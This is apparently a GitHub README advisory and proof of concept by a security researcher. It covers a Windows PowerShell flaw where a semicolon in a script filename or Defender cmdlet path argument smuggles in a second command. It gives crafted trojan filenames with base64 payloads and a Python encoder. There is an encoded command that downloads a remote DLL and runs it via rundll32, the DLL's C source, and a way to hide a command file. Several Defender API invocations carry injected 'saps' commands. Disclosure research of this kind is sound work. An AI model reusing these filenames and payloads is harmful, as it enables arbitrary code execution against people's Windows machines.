 # PSTrojanFile
Windows PowerShell Filename and Defender Anti-Malware API - Code Execution POC <br>  
Discovery: John Page (aka hyp3rlinx) 2019 and revisted 2023

Updated: Dec 7, 2023 added CL and Windows Defender API vector, see below:

Since it still works, I dusted off and made minor improvements: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or local text-file (can be hidden)
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC;.ps1"

Vectors: double click, drag and drop to PS shortcut

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: <br>  
=======================
Create a trojan PS1 file that will try to download and execute a remote DLL named "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Code Execution Example: <br> 
======================================

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC;.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.

Requirements: <br>  
=====================

a) PowerShell PS1 files must be set to open with PowerShell as the default program <br>  

b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force <br>  

c) User must double-click, run from cmd line or drag and drop the maliciously named PS1 script <br>  


https://www.youtube.com/watch?v=-ZJnA70Cf4I

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/029d41d2-af58-434d-8d0f-0bf8f01d1c55

![PSTrojanFile](https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/31317076-6ceb-4b28-8062-9c8863b0831d)

Update: Microsoft Defender Anti-Malware PowerShell API - Arbitrary Code Execution.

Microsoft Defender Anti Malware and or PS API's can result in executing arbitrary code.
E.g. scan a directory, shortcut .lnk or even non-existent item, may execute unintended code.
This vector builds upon my previous advisory and subsequent project PSTrojanFile.

Requirements:
1) On CL 'powershell' cmd is prefixed or passed in by calling PowerShell from another script
2) Executable file of same name as the parameter that lives nearby

Examples: <br>
powershell Start-MpScan -Scanpath "C:\Users\gg\Downloads\;saps Helper;.1.zip"
(Helper.exe lives on Desktop)

Create directory  ";saps Test", Test.exe, Test.cmd etc is on same CL path <br>
powershell Add-MpPreference -ControlledFolderAccessAllowedApplications ";saps Test"

Create directory with semicolon, drop PE file named doom.exe in same path.  <br>
powershell Set-ProcessMitigation -PolicyFilePath  "test;saps doom"

Last but not least:
When grabbing a file hash in PowerShell logs you out  :)  <br>
c:\>powershell  get-filehash  -algorithm MD5 "Malware;saps logoff.exe"  <br>

https://www.youtube.com/watch?v=0Go6yJiRWP8

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/b033b9f8-1ea0-4ea3-9fa3-56ea63db5b08



